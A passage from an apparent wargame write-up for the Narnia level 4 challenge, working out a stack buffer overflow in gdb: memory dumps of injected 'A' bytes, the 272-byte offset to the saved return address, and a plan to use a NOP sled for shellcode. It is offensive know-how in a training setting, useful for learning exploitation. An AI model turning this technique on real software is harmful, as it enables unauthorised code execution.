 ```
Breakpoint 1, 0x080484fa in main ()
(gdb) x/50xw $esp
0xffffd5e0:     0xffffd60c      0xffffd8ec      0x00000021      0xf7ff7d54
0xffffd5f0:     0xf7e2fe38      0x00000000      0x00000026      0xffffffff
0xffffd600:     0x00000000      0x00000000      0x00000001      0x41414141
0xffffd610:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd620:     0x41414141      0x00000000      0xf7ec4440      0xf7ec471e
0xffffd630:     0xffffd668      0xf7ffcff4      0xf7ffdad0      0xffffd754
0xffffd640:     0xffffd710      0xf7fe5fb9      0xffffd6f0      0x080481ec
0xffffd650:     0xffffd6d8      0xf7ffda74      0x00000000      0xf7fd32e8
0xffffd660:     0x00000001      0x00000000      0x00000001      0xf7ffd918
0xffffd670:     0x00000000      0x00000000      0x00000000      0xf7fceff4
0xffffd680:     0xffffd6ce      0xffffd6cf      0x00000001      0xf7ec4a79
0xffffd690:     0xffffd6cf      0xffffd6ce      0x00000000      0xf7ff249c
0xffffd6a0:     0xffffd754      0x00000000
(gdb) i f
Stack level 0, frame at 0xffffd720:
eip = 0x80484fa in main; saved eip 0xf7e454b3
Arglist at 0xffffd718, args:
Locals at 0xffffd718, Previous frame's sp is 0xffffd720
Saved registers:
ebp at 0xffffd718, edi at 0xffffd714, eip at 0xffffd71c
(gdb) p 0xffffd71c-0xffffd60c
$1 = 272
```

Overwriting the return address with an incorrect address can cause our shellcode not be executed and since we can't use the debugger to get the exact location of our shellcode we've got a problem. A possible solution is make the program segfault and analyze the core dump, but since we need to fill the stack with junk bytes anyway (in addition to our shellcode) until overwriting the return address we can use them to form a [nop-sled](http://en.wikipedia.org/wiki/NOP_slide), which will give us some flexibility regarding the return address.

Examining the stack with an appropriate input size (276 bytes), we see the following:

```
narnia4@melinda:/narnia$ gdb -q --args ./narnia4 $(python -c "print '\x41'*276") 
Reading symbols from /games/narnia/narnia4...(no debugging symbols found)...done.
(gdb) b *main+182
Breakpoint 1 at 0x80484fa
(gdb) r

Breakpoint 1, 0x080484fa in main ()
(gdb) x/100xw $esp
0xffffd4e0:     0xffffd50c      0xffffd7f0      0x00000021      0xf7ff7d54
0xffffd4f0:     0xf7e2fe38      0x00000000      0x00000026      0xffffffff
0xffffd500:     0x00000000      0x00000000      0x00000001      0x41414141
0xffffd510:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd520:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd530:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd540:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd550:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd560:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd570:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd580:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd590:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5e0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5f0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd600:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd610:     0x41414141      0x41414141      0x41414141      0x41414141
```